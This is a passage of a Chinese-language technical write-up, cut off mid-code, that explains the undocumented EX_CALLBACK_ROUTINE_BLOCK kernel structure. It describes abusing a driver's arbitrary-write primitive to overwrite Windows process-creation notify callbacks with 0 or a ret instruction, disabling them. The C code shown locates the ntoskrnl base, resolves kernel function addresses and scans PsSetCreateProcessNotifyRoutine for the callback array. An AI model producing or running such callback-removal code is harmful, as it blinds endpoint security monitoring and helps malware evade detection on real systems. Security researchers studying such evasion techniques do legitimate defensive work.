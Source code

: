 此结构体为`EX_CALLBACK_ROUTINE_BLOCK` ，它是没有记录。但是 ReactOS 给了它定义：

```plain
typedef struct _EX_CALLBACK_ROUTINE_BLOCK {
    EX_RUNDOWN_REF RundownProtect;
    PEX_CALLBACK_FUNCTION Function;
    PVOID Context;
} EX_CALLBACK_ROUTINE_BLOCK, *PEX_CALLBACK_ROUTINE_BLOCK;
```

该结构体前 8 位是`EX_RUNDOWN_REF` 结构，可以忽略，后面的`PEX_CALLBACK_FUNCTION` 就是回调函数的地址，如上图。

拿到这个回调函数地址之后可以利用驱动的任意地址写向其写入 0 或 ret 指令，来使其失效。话不多说，下面来看一下代码实现。

```plain
#include "header.h"
HANDLE hDevice = NULL;
HANDLE Process = NULL;

PVOID GetNtoskrnlBase() {
    PRTL_PROCESS_MODULES ModuleInfo = (PRTL_PROCESS_MODULES)calloc(1024 * 1024,1);
    NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, ModuleInfo, 1024*1024, NULL);
    if (!NT_SUCCESS(status)) {
        return 0;
    }

    for (int i = 0; i < ModuleInfo->NumberOfModules; i++)
    {
        if (lstrcmpiA((LPCSTR)(ModuleInfo->Modules[i].FullPathName + ModuleInfo->Modules[i].OffsetToFileName), "ntoskrnl.exe") == 0) {

            return ModuleInfo->Modules[i].ImageBase;
        }
    }
    return 0;
}
INT64 GetFuncAddress(CHAR* FuncName) {

    PVOID KBase=GetNtoskrnlBase();
    if (KBase == 0) {
        printf("未找到ntoskrnl.exe基地址\n");
        return 0;
    }
    HMODULE ntos = LoadLibraryA("ntoskrnl.exe");
    ULONG PocAddress = (ULONG)GetProcAddress(ntos, FuncName);
    ULONG Offset = PocAddress - (ULONG)ntos;
    return (INT64)KBase+Offset;
}
INT64 GetPspCreateProcessNotifyRoutineArray() {
    INT64 PsSetCallbacksNotifyRoutineAddress = GetFuncAddress((CHAR*)"PsSetCreateProcessNotifyRoutine");
    if (PsSetCallbacksNotifyRoutineAddress == 0) return 0;
    //定位 PspSetCreateProcessNotifyRoutine 函数地址
    INT count = 0;
    BYTE* buffer = (BYTE*)malloc(1);
    while (1) {
        DriverReadMemery((VOID*)PsSetCallbacksNotifyRoutineAddress, buffer,1);
        if (*buffer == 0xE8 || *buffer == 0xE9) {
            break;
        }
        PsSetCallbacksNotifyRoutineAddress = PsSetCallbacksNotifyRoutineAddress + 1;
        if (count == 200) {
            printf("未找到 Pspsetcreateprocessnotifyroutine 函数地址\n");
            return 0;
        }
```